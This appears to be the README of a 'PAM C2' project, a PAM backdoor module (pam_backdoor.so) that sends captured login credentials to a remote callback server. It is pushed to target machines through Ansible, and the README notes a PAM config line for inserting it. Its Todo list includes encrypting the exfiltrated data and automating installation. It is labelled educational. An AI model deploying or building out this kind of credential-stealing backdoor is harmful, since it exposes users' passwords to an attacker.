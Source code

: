 # PAM C2 (for educational purposes) (better name TBD)
Custom PAM module that sends login information to a remote server (built for educational purposes to understand how PAM works on the backend)

## Setup:
1. Write all target IP addresses in inventory.ini under the [targets] section
2. Run ./setup.sh <Callback IP> <Port> as root from the host machine

## Host Requirements and Prerequities:
Host must be a Linux distribution (Debian-based/RedHat-based for now) capable of installing and running Ansible

Install Ansible on the host machine
- Ubuntu: `sudo apt update && sudo apt install software-properties-common && sudo add-apt-repository --yes --update ppa:ansible/ansible && sudo apt install ansible`
- RedHat Distributions: `sudo dnf install ansible`
- Kali Linux: `sudo apt install ansible`

## Current Progress
- Running setup.sh will setup and copy over compiled module to target operating systems into the correct directory (only tested on Ubuntu so far)

## Current Known Issues
- Including the module through `auth optional {PAM_MODULE_DIR}/pam_backdoor.so` before the pam_permit.so line works on sending correct login information to the remote server, but it breaks the login screen for some reason (can still login to the machine through ssh)

## Todo
- Encrypt message being sent from client
- Automate use of module in /etc/pam.d/
- Include a way to authenticate the same way pam_unix.so does
- Create default server-side server with database
- Customizable setup script (output formats, special servers, delivery types)
- Include Arch/SUSE category of target machine (should same as RedHat)